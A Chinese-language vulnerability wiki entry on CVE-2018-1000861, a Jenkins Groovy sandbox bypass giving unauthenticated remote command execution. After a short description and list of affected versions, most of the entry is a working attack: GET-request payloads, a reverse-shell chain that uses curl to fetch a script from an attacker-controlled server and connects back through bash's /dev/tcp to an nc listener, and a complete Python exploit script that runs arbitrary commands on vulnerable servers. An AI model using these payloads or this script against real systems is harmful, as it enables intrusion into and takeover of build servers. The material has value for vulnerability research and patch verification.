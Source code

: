 （CVE-2018-1000861）Jenkins 远程命令执行漏洞
============================================

一、漏洞简介
------------

Jenkins使用Stapler框架开发，其允许用户通过URL
PATH来调用一次public方法。由于这个过程没有做限制，攻击者可以构造一些特殊的PATH来执行一些敏感的Java方法。

通过这个漏洞，我们可以找到很多可供利用的利用链。其中最严重的就是绕过Groovy沙盒导致未授权用户可执行任意命令：Jenkins在沙盒中执行Groovy前会先检查脚本是否有错误，检查操作是没有沙盒的，攻击者可以通过Meta-Programming的方式，在检查这个步骤时执行任意命令。

二、漏洞影响
------------

Jenkins Version \<= 2.56

Jenkins LTS Version \<= 2.46.1

三、复现过程
------------

#### 漏洞复现:

##### 1.此漏洞是没有回显的,所以我们这里直接反弹shell:

此漏洞的POC(直接GET请求即可):

    GET /securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=public%20class%20x%20{public%20x(){%22touch%20/tmp/CVE-2018-1000861_is_success%22.execute()}}

##### 2.我们这里采取下载文件的方法来反弹shell

\(1\) 先在我们的服务器上防止一个文本,内容为:

    bash -i >& /dev/tcp/172.26.1.156/9999 0>&1

\(2\) 然后我们替换POC中执行命令的部分为下载文件的命令:

    curl -o /tmp/1.sh http://172.26.1.156:8080/1.txt

替换后的POC:

    http://172.26.1.129:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=public%20class%20x%20{public%20x(){%22curl+-o+/tmp/1.sh+http://172.26.1.156:8080/1.txt%22.execute()}}

\(3\) 给予下载的脚本执行权限:

    chmod 777 /tmp/1.sh

替换后的POC:

    http://172.26.1.129:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=public%20class%20x%20{public%20x(){%22chmod+777+/tmp/1.sh%22.execute()}}

\(4\) 然后在我们接收shell的机器上监听之前写的端口:

    nc -lvvp 9999

\(5\) 直接bash执行我们下载的脚本

    bash /tmp/1.sh

替换后的POC:

    http://172.26.1.129:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=public%20class%20x%20{public%20x(){%22bash+/tmp/1.sh%22.execute()}}

\(6\) 回到我们监听端口的机器:

![U1fa800f6a04448f38d05166dcce9d04cJ.jpg](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-1000861)Jenkins远程命令执行漏洞/media/rId27.jpg)

可以看到已经成功获取到了shell!

### poc

**useage**

    $ curl -s -I http://jenkins/| grep X-Jenkins
    X-Jenkins: 2.137
    X-Jenkins-Session: 20f72c2e
    X-Jenkins-CLI-Port: 50000
    X-Jenkins-CLI2-Port: 50000

    $ python exp.py http://jenkins/ 'curl orange.tw'
    [*] ANONYMOUS_READ disable!
    [*] Bypass with CVE-2018-1000861!
    [*] Exploit success!(it should be :P)

![Uadc7abd83e45466dbed2f51492676c13j.jpg](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-1000861)Jenkins远程命令执行漏洞/media/rId29.jpg)

    #!/usr/bin/python
    # coding: UTF-8
    # author: Orange Tsai(@orange_8361)
    # 

    import sys
    import requests
    from enum import Enum

    # remove bad SSL warnings
    try:
        requests.packages.urllib3.disable_warnings()
    except:
        pass


    endpoint = 'descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript'

    class mode(Enum):
        ACL_PATCHED = 0
        NOT_JENKINS = 1
        READ_ENABLE = 2
        READ_BYPASS = 3
        ENTRY_NOTFOUND = 999

    def usage():
        print '''
      Usage:
        python exp.py <url> <cmd>
        '''

    def _log(msg, fail=False):
        nb = '[*]'
        if fail:
            nb = '[-]'
        print '%s %s' % (nb, msg)

    def _get(url, params=None):
        r = requests.get(url, verify=False, params=params)
        return r.status_code, r.content

    def _add_bypass(url):
        return url + 'securityRealm/user/admin/'

    def check(url):
        flag, accessible = mode.ACL_PATCHED, False

        # check ANONYMOUS_READ
        status, content = _get(url)
        if status == 200 and 'adjuncts' in content:
            flag, accessible = mode.READ_ENABLE, True
            _log('ANONYMOUS_READ enable!')
        elif status == 403:
            _log('ANONYMOUS_READ disable!')

            # check ACL bypass, CVE-2018-1000861
            status, content = _get(_add_bypass(url))
            if status == 200 and 'adjuncts' in content:
                flag, accessible = mode.READ_BYPASS, True
        else:
            flag = mode.NOT_JENKINS

        # check entry point, CVE-2019-1003005
        if accessible:
            if flag is mode.READ_BYPASS:
                url = _add_bypass(url)
            status, content = _get(url + endpoint)

            if status == 404:
                flag = mode.ENTRY_NOTFOUND

        return flag

    def exploit(url, cmd):
        payload = 'public class x{public x(){new String("%s".decodeHex()).execute()}}' % cmd.encode('hex')
        params = {
            'sandbox': True, 
            'value': payload
        }

        status, content = _get(url + endpoint, params)
        if status == 200:
            _log('Exploit success!(it should be :P)')
        elif status == 405:
            _log('It seems Jenkins has patched the RCE gadget :(')
        else:
            _log('Exploit fail with HTTP status [%d]' % status, fail=True)
            if 'stack trace' in content:
                for _ in content.splitlines():
                    if _.startswith('Caused:'):
                        _log(_, fail=True)

    if __name__ == '__main__':
        if len(sys.argv) != 3:
            usage()
            exit()

        url = sys.argv[1].rstrip('/') + '/'
        cmd = sys.argv[2]

        flag = check(url)
        if flag is mode.ACL_PATCHED:
            _log('It seems Jenkins is up-to-date(>2.137) :(', fail=True)
        elif flag is mode.NOT_JENKINS:
            _log('Is this Jenkins?', fail=True)
        elif flag is mode.READ_ENABLE:
            exploit(url, cmd)
        elif flag is mode.READ_BYPASS:
            _log('Bypass with CVE-2018-1000861!')
            exploit(_add_bypass(url), cmd)
        else:
            _log('The `checkScript` is not found, please try other entries(see refs)', fail=True)
